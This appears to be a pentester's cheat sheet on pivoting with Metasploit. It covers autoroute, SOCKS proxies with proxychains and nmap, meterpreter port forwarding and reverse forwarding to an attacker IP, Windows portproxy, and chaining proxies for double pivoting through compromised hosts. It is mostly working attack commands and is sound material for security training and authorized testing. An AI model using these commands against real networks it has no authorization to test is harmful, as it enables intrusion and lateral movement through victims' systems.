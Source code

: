> This section is a collection of pivoting techniques. Mainly commands with the metasploit framework

Through pivoting it is possible to scan/enumerate/exploit targets in a new subnet or behind a firewall/DMZ from a bastion host (host acts as some kind of proxy).

## Enable pivoting through an established meterpreter session

### 0. Prerequisites

- established meterpreter session on a host
- Victim host must have connection to other NW or machine

### 1. Create a route into another network

```bash
msf> use post/multi/manage/autoroute
msf> set SESSION 1  # session on bastion host
msf> set SUBNET 10.10.10.0  # target network
msf> set NETMASK /16  # if different from /24
msf> run

# OR

meterpreter> run autoroute -s 10.10.10.0/16 # inside the correct session!
```

Routes can be display with the `route` command in the console.

Also they can be added 'manually':

```bash
msf> route add <networkIP> <subnetMask> <sessionNumber>
msf> route add <networkIP>/24 <sessionsNumber>
```

### 2. Using the Pivot within metasploit frameowrk

This should be working already. If traffic is to go to the network covered by the defined route, metasploit will handly it automatically.

### 3. Start the `SOCKS` proxy for outside tools to pivot

```bash
msf> use auxiliary/server/socks_proxy
msf> set VERSION 4a  # optionally version 5 works also
msf> run
```

Socks proxy is started as a job in metasploit and runs in the background (check via `jobs` command).

- Also check if local config for proxychains matches the `PORT` and `VERSION` parameter stated within metasploit.

```bash
sudo nano /etc/proxychains4.conf  # or similar config name
> version 4a  # if using version 4
> port 1080
```

With this config and metasploit running the socks server, we can use `proxychains` in order to use other tools over this tunnel.

### 4. Use `proxychains` with `nmap`

> Remember: `SOCKS` is a service on the upper layers of the OSI model - `ICMP` and other low-level functions will not work with proxychains!

```bash
# scan ftp port with nmap
sudo proxychains nmap -Pn -sTV -n -p21 <targetIP>

# scan top 50 (most common) ports with nmap
sudo proxychains nmap -sT -Pn -n <targetIP> --top-ports 50
```

## Portforwarding

> This is crucial if we want to reach another machine not capable of reaching the web or the IP-Range where the attacker resides!
> 
> Using metasploit

```bash
meterpreter> portfwd add -l <localPort> -r <targetIP> -p <targetPort>
meterpreter> portfwd add -l 3333 -r 10.0.0.15 -p 3389
```

Example above: `RDP` connect to local port 3333 will actually goto 10.0.0.15:3389

![[m6_portforward.png]]

Listener on attacker machine forwarding traffic to the target over the compromised host. Requires an already exploited victim to use as intermediary.

**IMPORTANT:**
This procedure is possible on linux and windows - BUT it will block the port on the attacker machine (so  you can jump from your local 3333 to the remote target machine 3389):

```bash
netstat -tulpn

Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:3333            0.0.0.0:*               LISTEN      54056/ruby          
```

### REVERSE portforwarding

> So the target machine has a route back over the exploited machine

```bash
# meterpreter on the exploited machine 10.10.10.15
meterpreter> portfwd add -l <attackerPort> -L <attackerIP> -p <exploitedMachinePort> -R  # -R indicating reverse portfwd
```

### For Windows

> Using meterpreter (again) -> routes to the remote NW should already exist

```bash
msf> use post/windows/manage/portproxy
msf> set connect_port 3333 <attackerPort>
msf> set connect_address <attackerIP>
msf> set local_address <exploitedMachine> # 10.10.10.15 in above img
msf> set local_port <exploitMachinePort> # 3333 or 3389 as seen above
msf> set session 1 # meterpreter session playing the proxy
```

Traffice is piped over the exploited machine from the target machine to the attacker!

### Followup

> You can address an exploited machine as receiving end of an exploit -> but only if there is already meterpreter running on it and the traffic is forwarded to the attacker

For ease of use we can create a payload with msfvenom pointing to the exploited machine (which forwards the traffic on the specific port to the attacker IP) -> upload (this port must also be forwarded) and execute on the new target to get a connect-back in metasploit.

## Double pivoting
> Or how to chain proxychains to reach an even deeper network

[SOURCE](https://pentest.blog/explore-hidden-networks-with-double-pivoting/)

1. Create corresponding routes for the networks via the exploited machines -> [[Pivoting#1. Create a route into another network]]
2. For every route start a `socks_proxy` job in metasploit [[Pivoting#3. Start the `SOCKS` proxy for outside tools to pivot]]
3. Adjust the configuration so `proxychains` is able to chain the different connections together to pivot into the deep network
```bash
# nano /etc/proxychains4.conf
dynamic_chain # enable
# strict_chain # disable
proxy_dns # optional
tcp_read_time_out 15000 # optional
tcp_connect_time_out 8000 # optional
socks5  127.0.0.1 1080 # Pivot 1
socks5  127.0.0.1 1081 # Pivot 2
```

Why should it work?
-> If we utilize Metasploit and add the correct routing table entries for the deep network the metasploit internal socks_proxy will pipe the traffic through the intermediate exploited hosts:
*This module provides a SOCKS proxy server that uses the builtin Metasploit routing to relay connections.*